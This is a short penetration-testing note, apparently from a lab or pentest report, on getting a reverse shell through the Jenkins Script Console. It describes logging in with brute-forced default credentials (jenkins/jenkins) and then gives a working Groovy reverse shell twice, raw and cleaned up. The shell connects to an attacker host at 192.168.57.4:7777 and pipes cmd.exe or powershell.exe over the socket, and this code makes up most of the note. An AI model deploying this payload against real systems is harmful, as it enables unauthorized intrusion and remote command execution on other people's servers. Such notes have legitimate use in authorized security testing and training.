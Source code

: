 ```yaml
---
aliases: 
tags:
  - tech
  - cybsec
  - penetration_testing
  - report
author: Mehdi N Tehrani
creat_date: ""
category: Cyber Security
subcategory: Penetration Testing - Report
---
```


#  reverse shell - groovy
https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76
After logging into Jenkins using **jenkins/jenkins** credentials (found by bruteforce attack using BurpSuite)
navigate to `Manage Jenkins > Script Console`
and enter the code found in the github repo above

```
String host="192.168.57.4";
int port=7777;
String cmd="powershell.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```


cleaned up code:
```
String host="192.168.57.4";
int port=7777;
String cmd="cmd.exe";

Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
Socket s=new Socket(host,port);

InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();
OutputStream po=p.getOutputStream(),so=s.getOutputStream();

while(!s.isClosed()){ 
	while (pi.available()>0) so.write(pi.read());
	while (pe.available()>0) so.write(pe.read());
	while (si.available()>0) po.write(si.read());
	so.flush();
	po.flush();
	Thread.sleep(50);
	try {
		p.exitValue();
		break;
	}
	catch (Exception e){}
};

p.destroy();
s.close();
```